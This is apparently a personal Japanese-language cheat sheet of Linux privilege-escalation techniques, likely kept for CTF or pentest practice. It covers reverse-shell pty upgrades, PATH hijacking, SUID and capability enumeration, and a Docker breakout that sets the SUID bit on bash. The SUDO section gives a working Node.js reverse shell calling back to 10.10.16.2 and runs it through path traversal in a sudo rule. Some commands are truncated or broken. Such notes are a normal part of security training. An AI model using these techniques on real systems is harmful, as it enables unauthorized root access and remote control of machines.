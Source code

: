 ## ## Reverse shellが完了した後
ptyを使用したshell
```
方法1
# python -c "import pty;pty.spawn('/bin/bash')"

方法2
# script /
```
https://hidepatidar.medium.com/spawning-interactive-reverse-shell-7732686ea775

---
## ## 1. PATH
- シェルで使用するコマンドは、絶対パスで指定をしない限り、
  PATH変数で定義されるディレクトリを見に行く。
  
- ユーザが書き込み権限を持っているフォルダーがパスにある場合アプリケーションを
  乗っ取ってスクリプトを実行する可能性がある。
  
  ▼手順
   - この手法は、システムの既存の構成に依存しているため以下の点を確認する必要がある。
     1.  $PATHの下にあるフォルダー
     2.  現在のユーザは、これらのフォルダのいずれかに対する書き込み権限を持っているか？
     3.  $PATHを変更できるか。
     4.  この脆弱性の影響を受ける、スクリプト/アプリケーションはあるか？
     
	書き込み可能なフォルダーを検索する方法。
	```
	# find / -writable 2>/dev/null | cut -d "
	```
    ここでecho $PATHとfindの結果を比較しPATHが通っているディレクトリに書き込み権限が
	ないことがわかったら、/tmpなどの書き込みができるフォルダーのPATHを通してあげる必要がある。
    ```
	# export PATH=/tmp:$PATH
	```

---
## ## 2. SUID
   1.SUIDまたはSGIDビットが「s」で設定されているコマンドを特定する。
	```
	# find / -type f -perm -04000 -ls 2>/dev/null
	```
   2. 上記で見つかったものを以下のサイトで調べる。
	https://gtfobins.github.io/#
   3. 上記のサイトで有効な手段が見つからなかった場合。
	  例えば、nanoユーザにrootとして実行できる権限が付与されている場合、その権限を使用して、rootが所有しているファイルでも関係なく読み取るか書き換えることが可能になる。
      
[自作CheetCheat](https://hackmd.io/w2nCuiJhSzyWfmBpeeXyJw)

---
## ## 3.Capabilities
1.以下のコマンドを使用して有効なケーパビリティを確認できる。
  ```
  # getcap
  ```
2.上記のコマンドのみだとめちゃくちゃエラー出力が出るので以下を実施。
  ```
  # getcap -r / 2>/dev/null
  ```

---
## ## Docker
   前提:コンテナ上でRoot権限を取得していること
   1. ホスト側で以下のコマンドを入力してDockerコンテナとホスト間で共有してあるディスクを確認する。
      ```
      # df -h
      ```
      
      以下が返ってくる。
```
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.3M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  64% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

   2. DockerContainerにて以下のコマンドを実行
      ```sh
      cd /bin/
      chmod u+s ./bash
      ```
      
   3. マシンのホスト側にて以下を実施
      ```sh
      bash -p
      ```
  - 参考
    - Hacktricks
      https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

---

## ## SUDO
   - sudo -l
     /usr/local/scripts/に書き込み権限がないときは/usr/local/scripts/../../../で書き込みができるディレクトリまでさかのぼり実行すればできる。
     ```
     (ALL) /usr/bin/node /usr/local/scripts/*.js
     ```
     
     - 以下のようなコードで実行可能
       ```
       # cat /home/angoose/reverseshell.js 
       (function(){
        var net = require("net"),
          cp = require("child_process"),
          sh = cp.spawn("/bin/bash", []);
        var client = new net.Socket();
        client.connect(443, "10.10.16.2", function(){
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application from crashing
        })();
        ```
        - payload
          ```
	          # sudo /usr/bin/node /usr/local/scripts/../../../..//home/angoose/reverseshell.js
          ```
        